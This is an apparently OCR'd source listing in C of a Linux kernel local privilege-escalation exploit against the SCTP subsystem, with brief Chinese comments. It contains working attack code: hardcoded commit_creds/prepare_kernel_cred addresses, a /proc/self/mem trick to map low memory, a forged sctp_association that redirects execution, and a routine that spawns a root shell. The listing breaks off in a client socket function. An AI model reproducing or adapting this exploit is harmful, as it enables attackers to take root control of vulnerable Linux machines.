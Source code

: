 ~~~c
{
        char pad1[0x18];
        struct sock *sk;
        char pad3[0x190];
        int state;
};

#define KERNCALL __attribute__((regparm(3)))
void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xc1074ee0;
void (*commit_creds)(void*) KERNCALL = (void*) 0xc1074b80;

void templine()
{
	commit_creds(prepare_kernel_cred(0));
	asm(	"pushl   $0x7b;"
		"pushl   $0x4000;"
		"pushl   $0x202;"
		"pushl   $0x73;"
		"pushl   $shell;"
		"iret;");
}

void shell()
{
        printf("root\n");
        system("/bin/sh");
        exit(0);
}

void mmap_zero() //POC - > EXP 关键。
{
	unsigned long addr = (unsigned long)mmap((void *)0x10000,0x1000,PROT_READ|PROT_WRITE|PROT_EXEC,MAP_PRIVATE|MAP_ANONYMOUS|MAP_GROWSDOWN|MAP_FIXED, -1, 0);
        if (addr != 0x10000)
                err(2,"mmap failed");
        int fd = open("/proc/self/mem",O_RDWR);
        if (fd == -1)
                err(2,"open mem failed");
        char cmd[0x100] = {0};
        sprintf(cmd, "su >&%d < /dev/null", fd);
        while (addr)
        {
                addr -= 0x1000;
                if (lseek(fd, addr, SEEK_SET) == -1)
                        err(2, "lseek failed");
                system(cmd);
        }
        printf("contents:%s\n",(char *)1); //实现低地址映射。
        
	struct sctp_association * sctp_ptr = (struct sctp_association *)0xbc;
        sctp_ptr->sk = (struct sock *)0x1000;
        sctp_ptr->sk->type = 0x2;
        sctp_ptr->state = 0x7cb094c; // offset, &_table[event_subtype._type][(int)state] = 0x3000
	unsigned long* ptr4 = (unsigned long*)0x3000;
	ptr4[0] = (unsigned long)&templine;
}

void* client_func(void* arg)
{
	int socket_fd;
	struct sockaddr_in serverAddr;
	struct sctp_event_subscribe event_;
	int s;
~~~
